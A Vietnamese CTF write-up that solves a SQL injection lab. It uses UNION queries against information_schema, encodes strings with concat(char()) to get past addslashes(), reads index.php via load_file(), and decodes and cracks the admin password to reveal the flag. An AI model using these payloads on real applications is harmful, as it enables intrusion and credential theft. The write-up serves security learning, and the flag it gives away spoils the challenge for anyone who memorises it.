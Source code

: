 # SQL injection - File reading

**Title**: Reading file with SQL!

**Point**: 40 Points 

**Description**: Retrieve the administrator password.

## Solution:

Đầu tiên, như thông thường, ta phải tìm **Inject point**. Cái form đầu tiên chắc cú là hàng pha kè rồi, nhưng cứ thử nhập `1'`-> Nhưng mà không được

Vào link "Member" , thấy có một user **admin**. Vào đó thì thấy thông tin admin được xuất ra với truy vấn trên URL là : `?action=members&id=1`. Thử inject `1'` lần lượt vào 2 tham số thì thấy có `id` là bị vulneralbe.

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/161073900-c173f14d-7d84-436b-ad3b-eb17e6530ea4.png"></p>

OK, giờ thử một payload cơ bản bypass như sau để thử filter:

```
1 or '1'='1' -- 
```

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/161074933-76276c5f-235a-4ed9-864e-d12fab378b00.png"></p>

Vậy là payload của chúng ta bị xử lý bởi hàm `addslashes()` và chuỗi bị escape bởi backslash `\` -> Gây ra lỗi. Bypass cái này thì cơ bản rồi, tí nữa cần dùng mình sẽ nói sau

Tiếp, mình cần xác định xem số lượng cột trả về bằng `UNION`. Cái này cơ bản luôn; thử 1 cột, 2 cột cho đến khi thành công. Payload với số lượng cột đúng:

```
2 union select 1, 2, 3, 4 -- 
```

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/161076239-688e1b7e-487f-4e35-aaed-9c2a666f8c56.png"></p>

**Lưu ý: Trừ cột 3 thì mình có thể hiển thị thông tin ở các cột khác**

Đến lúc thực hiện lấy từ `information_schema`. Đầu tiên, ta lấy tên các bảng:

```
2 union select 1, group_concat(table_name), 3, 4 from information_schema.tables -- 
```

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/161076907-44976983-2575-42b3-8ad9-b39edbad2355.png"></p>

Vì có nhiều bảng mặc định trong `information_schema.tables` nên kết quả trả về hơi dài. Lướt lê lướt lả một hồi thì thấy table đáng chú ý là `member` nằm phía cuối, respect người ra đề (~ o ~)

Lấy thông tin tên các cột tương ứng với table `member` đã xác định:

```
2 union select 1, group_concat(column_name), 3, 4 from information_schema.columns where table_name='member' -- 
```

Payload trên chắc chắn không hoạt động vì có hàm `addslashes()` quấy rối như phân tích ở trên. Ở đây mình có thể không dùng trực tiếp **string** mà dùng kiểu nối chuỗi điển hình với hàm `concat()` và `char()`. Ví dụ chuỗi `'abc'` sẽ thành `concat(char(97) , char(98) , char(99) )`. Dùng code python sau để generate cho nhanh:

```python
################# GENERATING STRING #################

a = "member" # String need to be generated

result = "concat("
for i in range (len(a)):
    if i != len(a) - 1:
        result += "char(" + str(ord(a[i])) + ") , "
    else:
        result += "char(" + str(ord(a[i])) + ") )"
print(result)
```
Output: `concat(char(109) , char(101) , char(109) , char(98) , char(101) , char(114) )` . Đưa payload này vào `WHERE` statement:

```
2 union select 1, group_concat(column_name), 3, 4 from information_schema.columns where table_name=concat(char(109) , char(101) , char(109) , char(98) , char(101) , char(114) ) -- 
```

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/161078745-51023b61-c21c-41a3-b734-bcfcae689768.png"></p>

Có các tên cột, ta có thể truy xuất dữ liệu. Kiểm tra user **admin** nằm ở dòng trả về thứ mấy: 

```
2 union select 1, group_concat(member_login), 3, 4 from member -- 
```

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/161079477-6e91dd33-e1c6-4f69-a8b2-43fd58a2477d.png"></p>

Xem ra chỉ có một user là **admin**. Giờ thì lấy password thôi

```
2 union select 1, group_concat(member_password), 3, 4 from member -- 
```

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/161079759-25d8a20a-cf87-4b34-a775-f20c4631abef.png"></p>

Password sao nhìn trông giống dạng **Encode base64** thế nhỉ. Nhưng mà có flag rồi thì submit thôi :))

Nhưng mà submit hộ , có đúng đâu 😥. Vậy là password mình đã bị encode thật rồi, nên mình sẽ decode nó ra [tại đây](https://www.base64decode.org/)

Nó ra thế này `TPWU_�_UU[_QPZWTTV�Q[QT`. Alright, những trường hợp thường thấy này là do có sự can thiệp của bên back-end server, encrypt chuỗi đầu vào rồi mới đưa vào database. Chúng ta khó có thể biết được cách encrypt nếu không có source code, ngẫm lại bài này là `File reading` nên hẳn là mình phải tìm cách đọc file.

GG được một hồi thì đa số đều suggest dùng hàm `load_file()` với tham số truyền vào là **absolute path**, path truyền vào là string và mình có thể bypass với cách dùng Python như trên. Điều khó ở đây là làm sao để tìm được cái **full path**. Đến bước này thì mình phải đoán một tí:

Đoạn này mình ngồi search nhưng vẫn không hiểu làm sao người ta tìm được path là `/challenge/web-serveur/ch31/index.php`. Có thể là từ mấy challenge có dùng **SSH connection**, nhưng thôi mình xin chôm tại cái này. Bypass string bằng python:

```python
a = "/challenge/web-serveur/ch31/index.php" # String need to be generated

result = "concat("
for i in range (len(a)):
    if i != len(a) - 1:
        result += "char(" + str(ord(a[i])) + ") , "
    else:
        result += "char(" + str(ord(a[i])) + ") )"
print(result)
```

Output:
```
concat(char(47) , char(99) , char(104) , char(97) , char(108) , char(108) , char(101) , char(110) , char(103) , char(101) , char(47) , char(119) , char(101) , char(98) , char(45) , char(115) , char(101) , char(114) , char(118) , char(101) , char(117) , char(114) , char(47) , char(99) , char(104) , char(51) , char(49) , char(47) , char(105) , char(110) , char(100) , char(101) , char(120) , char(46) , char(112) , char(104) , char(112) )
```

Đưa vào payload:

```
2 union select 1, load_file(concat(char(47) , char(99) , char(104) , char(97) , char(108) , char(108) , char(101) , char(110) , char(103) , char(101) , char(47) , char(119) , char(101) , char(98) , char(45) , char(115) , char(101) , char(114) , char(118) , char(101) , char(117) , char(114) , char(47) , char(99) , char(104) , char(51) , char(49) , char(47) , char(105) , char(110) , char(100) , char(101) , char(120) , char(46) , char(112) , char(104) , char(112) )), 3, 4 -- 
```

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/161085221-9122172e-572b-4f12-8b49-b9f51dfe6f92.png"></p>

Chú ý đến đoạn làm thế nào để print ra được `Authentication success !!`, tức là password đúng:

```php
 $pass = sha1($_POST['password']);
 $result = mysqli_query($GLOBALS["___mysqli_ston"], "SELECT member_password FROM member WHERE member_login='".$user."'");
 if(mysqli_num_rows($result) == 1) 
 { 
 $data = mysqli_fetch_array($result);
 if($pass == stringxor($key, base64_decode($data['member_password'])))
 { // authentication success print "
Authentication success !!
```
Ở đây password được so sánh theo công thức: `sha1(input_password) == decode_base64(member_password) ^ key ?`. Với `member_password` mình đã có ở trên, còn `$key` thì mình mở mã nguồn ra (Ctrl + U) là thấy: `$key = "c92fcd618967933ac463feb85ba00d5a7ae52842";`

Giờ thì mình lấy lại mấy hàm cần thiết và chạy code PHP để giải mã:

```php
<?php
    function stringxor($o1, $o2) {
        $res = '';
        for($i=0;$i<strlen($o1);$i++)
            $res .= chr(ord($o1[$i]) ^ ord($o2[$i]));        
        return $res;
    }
    $key = "c92fcd618967933ac463feb85ba00d5a7ae52842";
    $member_password = "VA5QA1cCVQgPXwEAXwZVVVsHBgtfUVBaV1QEAwIFVAJWAwBRC1tRVA==";
    $result = stringxor($key, base64_decode($member_password) );
    echo $result;
?>
```

Output: **77be4fc97f77f5f48308942bb6e32aacabed9cef**. Password mình nhập vào hash với `SHA1` ra được đối chiếu với chuỗi output này, mình thử crack cái hash này ra và hy vọng nó "đủ yếu". Dùng [Crack Station](https://crackstation.net/)

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/161094566-52dd9538-b282-453a-bf12-5f2a894d7f9e.png"></p>

Flag: **superpassword**

